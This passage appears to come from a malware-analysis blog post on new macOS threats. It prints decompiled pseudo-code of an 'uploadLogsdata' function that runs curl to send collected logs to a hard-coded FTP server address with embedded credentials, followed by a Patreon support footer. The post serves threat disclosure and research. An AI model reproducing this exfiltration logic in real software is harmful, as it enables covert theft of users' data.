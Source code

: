 ```
main.uploadLogsdata() {
    ...
    char* var_50 = "--ftp-create-dirs"
    char* var_30 = "mars:LnW4BhIdjOsVZzK0"
    void* var_20 = "ftp://45.77.179.89/upload/encoun…";
    ...

    os/exec.(*Cmd).Run(_os/exec.Command(..., "curl", ...);
}
```

Details about the remaining new macOS malware, be appended to this blog post each day!

### 💕 Support:

Love these blog posts? You can support them via my [Patreon](https://www.patreon.com/bePatron?c=701171) page![![Image 48](https://objective-see.org/images/patreon.png)](https://www.patreon.com/bePatron?c=701171)
